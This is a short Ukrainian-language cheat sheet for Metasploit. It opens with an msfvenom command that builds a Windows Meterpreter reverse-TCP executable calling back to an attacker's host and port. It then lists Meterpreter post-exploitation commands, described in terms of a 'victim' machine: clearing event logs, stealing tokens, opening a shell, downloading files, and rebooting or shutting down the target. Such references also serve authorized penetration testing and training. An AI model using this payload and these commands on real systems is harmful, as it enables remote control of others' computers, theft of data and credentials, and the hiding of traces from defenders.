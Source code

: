 ## Створення payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -a x64 -o /home/kali/payload.exe

## Основні команди Meterpreter:

**?** — меню допомоги  
**background** — переносить поточний сеанс в фоновий режим.  
**bgkill** — завершує фоновий скрипт meterpreter.  
**bglist** — відображає список всіх запущених фонових скриптів.  
**bgrun** — запускає скрипт як фоновий потік.  
**channel**  — відображає активні канали.  
**close** — закриває канал.  
**exit** — завершує севнс роботи з meterpreter.  
**help** — меню довідки.  
**interact** — взаємодіє з каналом.  
**irb** — перейти в режим сценарію Ruby.  
**migrate** — переносить активний процес на указаний PID.  
**quit** — завершує сеанс meterpreter.  
**read** — читає дані з каналу.  
**run** — виконує створений після нього скрипт meterpreter.  
**use** — завантажує розширення meterpreter.  
**write** — записує дані в канал.  

## Команди файлової системи

**cat** — читання і виведення вмісту файлу.  
**cd** — перейти в папку.  
**del** — видалити файл.  
**download** — завантажити файл з системи на свій ПК.  
**edit** — редагувати файл за допомогою vim.  
**getlwd** — показати локальний каталог.  
**getwd** — показати робочий каталог.  
**lcd** — змінити локальний каталог.  
**lpwd** — відобразити шлях локальної директорії.  
**ls** — список файлів в поточному каталозі.  
**mkdir** — створити каталог.  
**pwd** — відобразити шлях кореневого каталогу до до поточного робочого каталогу.  
**rm** — видалити файл.  
**rmdir** — видалити каталог в жертви.  
**upload** — завантажити файл зі своєї системи на на поточну машину.  

## Мережеві команди Meterpreter:

**clearav** — очищуэ журнал подый на комп'ютері жертви.  
**execute** — виконує команду.  
**getpid** — отримує ідентифікатор поточного процесу (PID).  
**getprivs** — отримує максимально можливі привілегії.  
**getuid** — отримати користувача від якого запущений сервер.  
**kill** — завершити процес, позначений PID.  
**ps** — список запущених процесів.  
**reboot** — перезавантажує комп'ютер жертви.  
**reg** — взаємодіяти з реєстром жертви.  
**rev2self** — викликає RevertToSelf () на машині жертви.  
**shell** — відкриває командний рядок на машині жертви.  
**shutdown** — виключає комп'ютер жертви.  
**steal_token** — намгається викрасти токен вказаного (PID) процесу.  
**sysinfo** — отримує детальну інформацію про комп'ютер жертви, таку ​як ОС і ім'я комп'ютера.  
